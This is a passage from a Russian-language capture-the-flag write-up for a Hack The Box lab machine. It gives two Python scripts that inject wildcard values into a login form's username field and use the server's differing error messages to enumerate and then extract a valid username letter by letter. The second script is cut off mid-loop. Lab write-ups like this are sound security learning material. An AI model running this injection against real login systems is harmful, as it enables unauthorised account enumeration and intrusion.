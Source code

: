 Модифицировав немного свой скрипт, я прохожу по всем буквам латинского алфавита, отправляю серверу запросы вида `<БУКВА>*` и смотрю на ответ: если ошибка звучит, как `User <БУКВА>* not found`, значит пользователя, имя которого начинается с буквы `<БУКВА>`, не существует, а если в ответ приходит `Cannot login`, значит с именем мы угадали (но, естественно, ошиблись в поле `OTP`, что сейчас неважно).

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

# Использование: python3 inject.py

import re
from string import ascii_lowercase
from urllib.parse import quote_plus

import requests

URL = 'http://10.10.10.122/login.php'

for c in ascii_lowercase:
	inject = c + quote_plus('*')

	data = {
		'inputUsername': inject,
		'inputOTP': '31337'
	}

	resp = requests.post(URL, data=data)
	match = re.search(r'<div class="col-sm-10">(.*?)</div>', resp.text, re.DOTALL)
	print(f'{c}* => {match.group(1).strip() == "Cannot login"}')
```

![brute-username.png]({{ "/img/htb/boxes/ctf/brute-username.png" | relative_url }})
{: .center-image}

По отлову ошибок второго типа я могу сдампить имя пользователя целиком. Для этого я снова немного изменю скрипт, чтобы не запускать его 100500 раз для каждой следующей верной буквы.

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

# Использование: python3 inject.py

import re
import time
from string import ascii_lowercase
from urllib.parse import quote_plus

import requests

URL = 'http://10.10.10.122/login.php'

username, done = '', False
print()

while not done:
	for c in ascii_lowercase:
		inject = username + c + quote_plus('*')

		data = {
			'inputUsername': inject,
			'inputOTP': '31337'
		}
```
